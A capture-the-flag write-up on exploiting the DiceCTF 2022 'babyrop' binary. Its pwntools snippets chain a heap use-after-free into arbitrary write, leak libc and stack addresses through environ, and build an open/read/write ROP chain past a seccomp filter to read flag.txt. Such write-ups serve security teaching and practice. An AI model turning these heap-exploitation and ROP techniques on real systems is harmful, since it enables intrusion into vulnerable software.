

DiceCTF - babyrop
The challenge provides a binary using libc 2.34 from DiceCTF of 2022, there is a UAF vulnerability that allows us to write arbitrarily in desired locations, abusing the behavior when the program allocates heap chunks. In the decompiling process, Ghidra was used, it can help us to know how the binary works by looking at the pseudo code of the program. At the beginning of the binary, we can notice the presence of the function activate_seccomp, that probably can turn the exploitation process more difficult.
undefined8 main(void)
{
uint index;
int char_option;
get_libc();
activate_seccomp();
while( true ) {
fwrite("enter your command: ",1,0x14,stdout);
fflush(stdout);
do {
do {
// do while char = 10
char_option = getchar();
} while (char_option == 10);
} while (char_option == 13);
if (char_option == -1) break;
fwrite("enter your index: ",1,18,stdout);
fflush(stdout);
__isoc99_scanf(&formatstring,&index);
if (((int)index < 0) || (9 < (int)index)) {
fprintf(stdout,"index out of range: %d\n",(ulong)index);
fflush(stdout);
}
else {
switch(char_option) {
case 0x43:
create_safe_string(index);
break;
case 0x45:
return 0;
case 0x46:
free_safe_string(index);
break;
case 0x52:
read_safe_string(index);
break;
case 0x57:
write_safe_string(index);
}
}
}
return 0;
}
The seccomp function handles the action of preparing seccomp in the binary. First, we need to understand what seccomp is. In Linux environments, sometimes we need to perform “sandboxing” actions or enhance the protection, seccomp is a Linux feature that helps us filter system calls, using seccomp filters, you can restrict the use of certain system calls.
The man page lists many rules that seccomp supports, as well as deeper behaviors of the filter.
Link: https://man7.org/linux/man-pages/man2/seccomp.2.html
void activate_seccomp(void)
{
long lVar1;
undefined8 *puVar2;
undefined8 *counter;
undefined2 local_128 [4];
undefined8 *local_120;
undefined8 local_118 [34];
puVar2 = &global_reference;
counter = local_118;
for (lVar1 = 0x21; lVar1 != 0; lVar1 = lVar1 + -1) {
*counter = *puVar2;
puVar2 = puVar2 + 1;
counter = counter + 1;
}
local_128[0] = 33;
local_120 = local_118;
// PR_SET_NO_NEW_PRIVS
prctl(38,1,0,0,0);
// PR_SET_SECCOMP
prctl(22,2,local_128);
return;
}
Returning to seccomp activation, what is the relationship between seccomp and the prctl function? Let’s let the man explain it to us. I left some comments in the pseudo code, but there’s a simpler way to view the arguments passed to the function call, using strace. The strace works by tracing system calls, intercepting the calls and signals received by a process
Link: https://man7.org/linux/man-pages/man1/strace.1.html
{kind=link}

Looking at some content on seccomp and sandbox escaping, I noticed that prctl() can be used incorrectly, potentially allowing a bypass of the implemented filters.
Links: https://n132.github.io/2022/07/03/Guide-of-Seccomp-in-CTF.html
https://tripoloski1337.github.io/ctf/2021/07/12/bypassing-seccomp-prctl.html
https://github.com/torvalds/linux/blob/master/include/uapi/linux/prctl.h
After some time analyzing the binary, I found two potentially useful elements for the exploit chain. First: if I allocate six chunks and a large chunk at index 0, this results in a small bin that the read_safe_string function can use to leak a LIBC address.
After obtaining the leak, calculating the LIBC base offset is straightforward by decreasing with the offsett-0x1f4cc0.
def leak():
for i in range(6):
create_safe_string(i,24,"AAAAAAAA")
for i in range(6):
free_safe_string(i)
create_safe_string(0,0x1024,"AAAAAAAA")
return read_safe_string(0)
libc.address = leak()-0x1f4cc0The second, and most useful, element is the presence of an arbitrary write. To exploit this vulnerability, we need to understand how the binary operates. For each created chunk where we control the chunk size, the program automatically creates a header chunk to store the size of the allocated chunk and a pointer to it.
The following code snippet demonstrates this behavior: by allocating two chunks of size 0x30, freeing both, and then reallocating the second chunk with the minimum size, we can push it to the 0x20 free list, which allows control over the header of the first chunk. This gives us control over the write size and the destination pointer. In this case, I chose address 0x404090, as the binary doesn’t use PIE.
create_safe_string(1,0x30,"BBBBBBBB")
create_safe_string(2,0x30,"BBBBBBBB")
free_safe_string(1)
free_safe_string(2)
create_safe_string(2,20,p64(0x41)+p64(0x404090)) # -> control header/chunk 8
write_safe_string(1,"YYYYYYYY")Next, we have an illustration to demonstrate the arbitrary write control. When two chunks are allocated, each one follows a sequence: a 0x20 metadata chunk, followed by the actual chunk (e.g., with a size of 0x30). The metadata chunk is used by the binary to perform actions like writing data. It includes a pointer that indicates the location of the corresponding 0x30 chunk.
To control a metadata chunk, allocate two chunks with sizes different than 0x20, and then allocate a subsequent chunk of size 0x20. This will pop and use the second metadata chunk as the metadata for the new chunk, while the metadata chunk of the first chunk becomes the controlled chunk. This allows us to set its values. After this allocation, if we write a size and an arbitrary pointer, it becomes possible to write to arbitrary addresses.

Look at the heap data:
0x4b2730 0x0000000000000000 0x0000000000000021 ........!.......
0x4b2740 0x0000000000000041 0x0000000000404090 A........@@.....Calling the write funtion write_safe_string, the function selects the pointer to the chunk using the index received as an argument, the first address of the previous code block, line 0x4b2740 will be the size, in this case 0x41, and the second address is the target, 0x404090.
After call the function, look that the payload has been placed in the desired location. Now there are some problems to be solved, how can I get command execution in a more modern LIBC or continue doing the chain? I already have an libc address and a AB write primitive.
pwndbg> x/2gx 0x404090
0x404090: 0x5959595959595959 0x0000000000000000
Searching, I found a post from nobodyisnobody explaining how to get code execution in the latest libc, I delved into some articles like kylebot's and niftic's blog, all related to FSOP (File Stream Oriented Programming) which is a technique used to modify structure pointers to get reading and writing, data leaking and execution. That’s is not our case, I thought of a simpler way to exploit the bug, like corrupt some return address and turning it into a ROP chain. If we think, this method is more plausible, also because of the seccomp.
For example, if we try to call some not allowed system call, the return will be:
stopped with exit code -31 (SIGSYS) Searching, I found a technique to leak strack address using the environ structure stored in the libc, we can abuse of this behavior to leak the an address.
Link: https://github.com/Naetw/CTF-pwn-tips?tab=readme-ov-file#leak-stack-address
It’s necessary to exploit the arbitrary write again, but this time we need to put the environment address into the corrupted chunk pointer and trigger a read to get the stack address.
create_safe_string(1,0x80,"B")
create_safe_string(2,0x80,"B")
free_safe_string(1)
free_safe_string(2)
create_safe_string(2,20,p64(0x21) + p64(libc.address + env_offset)) # -> control header/chunk 8
stack_address = read_safe_string(1,2) # -> leak - stackNow with the stack address it’s needed to find a return address to place the ROP chain sequence. The ROP (Return Oriented Programming), is a technique that uses program or loaded libraries addresses to execute assembly opcodes sequences. It’s based on gadgets that have a “ret” operation code, allowing us to proceed to other operation codes.
WIth the seccomp-tools binary, we can inspect the applied filters, know the restrictions and the allowed system calls.
Link: https://github.com/david942j/seccomp-tools
Note that the open, read and write system calls are allowed, the unique paths that we need to read a file.

In this context, the file to be read was written to a writable region 0x404120.
create_safe_string(5,0x70,"B")
create_safe_string(6,0x70,"B")
free_safe_string(5)
free_safe_string(6)
create_safe_string(6,20,p64(0x100) + p64(w_region))
write_safe_string(5,b"./flag.txt\x00")The next code snippet, triggers an arbitrary write to the return value of the current exection, at the offset 0x190, allowing us to proceed with the ROP chain.
create_safe_string(7,0x30,"B")
create_safe_string(8,0x30,"B")
free_safe_string(7)
free_safe_string(8)
create_safe_string(8,20,p64(0x100) + p64(stack_address - 0x190))The next step of the exploit is: use the write_safe_string function to execute our shellcode. It’s very simple to understand the ROP chain, because of the pure system instruction gadgets, we cannot use open and other system calls directly, so it’s common to spawn it from libc. The open function will open the desired file that was stored at the address 0x404120 → flag.txt, the file descriptor 3 (open file) was used to write the data to a writable region, 0x404120 too. The last call made writes the data from the writable region to standard output, completing the exploration.
write_safe_string(7,
p64(libc.address + 0x000000000002d13f)+ # DEBUGGING
p64(pop_rdi) + p64(0x404120)+
p64(pop_rsi) + p64(0x0)+
p64(pop_rsi) + p64(0x0)+
p64(libc.sym["open"])+
p64(pop_rdi) + p64(0x3)+
p64(pop_rsi) + p64(w_region)+
p64(pop_rdx) + p64(0x30)+
p64(libc.sym["read"])+
p64(pop_rdi) + p64(0x1)+
p64(pop_rsi) + p64(w_region)+
p64(pop_rdx) + p64(0x30)+
p64(libc.sym["write"]))
Entire exploit code: https://github.com/sidhawkss/pwnchalls/blob/main/random-challenges/babyrop22/solve.py